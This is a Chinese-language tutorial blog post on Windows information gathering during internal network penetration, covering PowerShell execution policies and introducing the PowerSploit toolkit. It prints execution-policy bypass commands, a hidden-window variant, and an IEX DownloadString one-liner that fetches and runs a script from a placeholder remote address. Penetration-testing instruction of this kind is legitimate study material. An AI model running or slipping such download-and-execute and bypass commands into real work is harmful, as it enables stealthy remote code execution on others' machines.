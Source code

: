 ```yaml
---
layout: post
title:  "内网渗透-信息收集02"
subtitle: 'windows下信息收集脚本使用'
date:   2019-08-28 18:00:00
tags: 内网渗透 
description: '内网渗透'
color: 'rgb(255,0,255)'
cover: 'https://a111-1255560786.cos.ap-nanjing.myqcloud.com/timg.jpg'
---
```


### 0x01 前言

在内网渗透中，前期的信息收集是必不可少，获取主机的关键信息，往往会对后边的渗透做下很好的铺垫。上一篇记录相关的命令和信息收集的点，这一篇介绍一下在windows下信息收集时用的自动化脚本。

### 0x02 windows下的脚本执行

一般powershell都有默认的保护机制，无法直接执行ps文件，需要使用其他方法。

四种执行权限

- Restricted——默认的设置， 不允许任何script运行
- AllSigned——只能运行经过数字证书签名的script
- RemoteSigned——运行本地的script不需要数字签名，但是运行从网络上下载的script就必须要有数字签名
- Unrestricted——允许所有的script运行

默认是禁止脚本执行的，使用Get-ExecutionPolicy进行查看，使用Set-ExecutionPolicy命令修改。

如果想要绕过默认的策略可用以下方法

本地权限绕过执行

`PowerShell -ExecutionPolicy Bypass -File xxx.ps1`

本地隐藏权限绕过执行

`PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden(隐藏窗口) -File xxx.ps1`

IEX下载远程脚本绕过执行

`IEX (New-Object Net.WebClient).DownloadString(“http://<ip_address>/path/xxx.ps1”)`

常用参数

- -ExecutionPolicy Bypass（-Exec Bypass）：绕过执行安全策略
- -WindowStyle Hidden（-W Hidden）：隐藏窗口
- -NonInteractive（-NonI）：非交互模式，不为用户提供交互式提示
- NoProfile（-Nop）：不加载当前用户配置文件
- -noexit：执行后不退出shell，使用键盘记录脚本非常重要
- -NoLogo：启动是不显示版权标致

### 0x03 PowerSploit

PowerSploit是一个在windows下的powershell脚本集，里面包含了信息收集，权限提升，权限维持等多种功能，这里主要介绍他的信息侦查模块recon和信息收集模块exfiltration
